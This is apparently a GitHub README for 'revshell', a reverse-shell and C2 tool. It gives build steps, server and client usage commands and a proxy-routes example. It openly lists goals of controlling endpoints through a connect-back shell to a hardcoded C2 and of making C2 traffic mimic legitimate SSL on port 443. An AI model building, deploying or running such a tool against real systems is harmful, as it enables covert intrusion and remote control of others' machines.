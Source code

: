 # revshell

### Upcoming Changes
* stress testing & optimisation pass
* clean up libvterm (remove glib requirement) (or move to new libvterm for VT220 support)

### Compiling for Linux
1. install dependencies as per your distro
   * python (2 or 3)
   * libssl-dev
   * ncurses-dev
2. make
3. ... profit

### Compiling for OSX
1. brew install python
2. brew install gsl
3. brew install glib
4. make 
5. ... profit

### Features:
* Written in C/C++
* Terminal emulation (vt100) using modified libvterm
* Communications encrypted using OpenSSL (TLSv1)
* (new) Supports proxy of TCP traffic from both client/server end for multiple routes
* Tested on Arch/Kali/Ubuntu and OSX

### Usage:

```
./server [port] - start c2 server (default port is 443)
./client [ip] [port] - launch connect back shell (default is 127.0.0.1:443)
```

To configure proxy routes edit '.proxies' in server directory. 
An example is provided below:

```
# .proxies example file
# <src_port> <dst_ip> <dst_port>

# example route 1
1337 127.0.0.1 9447

# example route 2
9001 192.168.1.112 9002
```

### Goals:
* (done) OSX or Linux endpoint control
* (done) Connects back and provides a shell to a hardcoded C2
* (done) Provides full tty emulation
* (done) Communication is encrypted

### Stretch Goals:
* (done) Communications to C2 mimic legitimate traffic (i.e. SSL on port 443)
* (done) Platform independent across OSX and Linux
* (done) Ability to proxy traffic through endpoint

### Known Issues:
* No window refresh after resizing. (issues with ncurses SIGWINCH handling atm)

### Screenshots:

![revshell_osx](https://github.com/jcramb/revshell/blob/master/screenshots/revshell_osx.png)

![revshell_linux](https://github.com/jcramb/revshell/blob/master/screenshots/revshell_linux.png)

### Helpful Resources:
* https://sourceforge.net/projects/libvterm/
* http://stackoverflow.com/questions/16382252/how-to-render-a-remote-ncurses-console
* http://www.linusakesson.net/programming/tty/
* http://stackoverflow.com/questions/11705815/client-and-server-communication-using-ssl-c-c-ssl-protocol-dont-works
* http://www.lundman.net/cvs/viewvc.cgi/lundman/lion/src/tls.c?revision=1.10&view=markup
* http://funcptr.net/2012/04/08/openssl-as-a-filter-%28or-non-blocking-openssl%29/
* http://h71000.www7.hp.com/doc/83final/ba554_90007/ch04s03.html
* http://stackoverflow.com/questions/16381628/openssl-non-blocking-sockets-ssl-read-still-blocks

## Documentation

TBC.
